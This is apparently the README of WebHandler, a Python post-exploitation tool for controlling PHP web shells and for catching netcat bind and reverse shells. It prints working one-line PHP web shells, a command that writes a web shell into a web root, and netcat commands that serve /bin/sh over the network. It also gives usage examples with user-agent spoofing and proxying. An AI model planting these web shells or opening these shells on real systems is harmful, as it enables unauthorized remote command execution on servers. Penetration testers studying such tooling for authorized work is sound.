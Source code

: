 # WebHandler #
## _A handler for PHP system functions & also an alternative 'netcat' handler_ ##
---
![My image](http://s12.postimage.org/t5ujo2om5/Untitled_1.png)

### Info ###
---
WebHandler tries to simulate a 'Linux bash prompt' to handle and process:

    - PHP program execution functions _(e.g. `system`, `passthru`, `exec`, etc)_
    - Bind shell connections _(e.g. `nc <ip> <port>`)_
    - Reserve shell connections _(e.g. `nc -lvvp 1234`)_

Another feature is to spoof the "User-Agent" field in the HTTP header. (`--random-angent`).

It also supports HTTP proxies (`--proxy http://<ip>:<port>`)

* WebHandler works for **POST** and **GET** requests:
    - `<?php system($_GET['cmd']); ?>`
    - `<?php passthru($_REQUEST['cmd']); ?>`
    - `<?php echo exec($_POST['cmd']); ?>`

* WebHandler is a replacement for netcat connections.

    A example bind connection (_e.g. `nc -lvvp 1234 -e /bin/sh`_)

    Normally the user would do:
    - `netcat -l -p 1234`
    - `nc -lvvp 1234`
    
    A example reverse connection (_e.g. `nc 127.0.0.1 4321 -e /bin/sh`_)

    Normally the user would do:
    - `netcat -l -p 4321`
    - `nc -lvvp 4321`

### Usage ###
---
* --Example file:
    - `echo '<?php system($_GET['cmd']); ?>' > /var/www/shell.php`

* --url is a required argument when sending either GET or POST requests _(e.g. a bind 'web based PHP' connection)_:
    - `python webhandler.py --url http://www.mywebsite.com/shell.php?cmd=`
    - `python webhandler.py --url http://www.mywebsite.com/shell.php --method POST --parameter cmd`
    - `python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --random-agent --turbo`
    - `python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --proxy http://127.0.0.1:8080`

* --listen is a required argument when working waiting connection _(e.g. a reverse 'raw' connection)_:
    - `python webhandler.py --listen 1234`

### Dependencies
---
If your [Python][]'s version < 2.7.x, then [argparse][] **is required**
To install it run: `sudo (apt-get|yum) install python-setuptools && sudo easy_install argparse` **OR** `sudo pip --install argparse`.

[readline][] **is optional**.
This module it used to provide elaborate line editing and history features

[git][] **is optional**.
This allows for the project to be kept up-to-date

### Links
---
[Wiki][]

[Known Bugs][]

[Python]: http://www.python.org/download/
[argparse]: http://docs.python.org/library/argparse.html
[readline]: http://cnswww.cns.cwru.edu/php/chet/readline/rltop.html
[git]: http://git-scm.com
[Wiki]: https://github.com/lnxg33k/webhandler/wiki
[Known Bugs]: https://github.com/lnxg33k/webhandler/issues
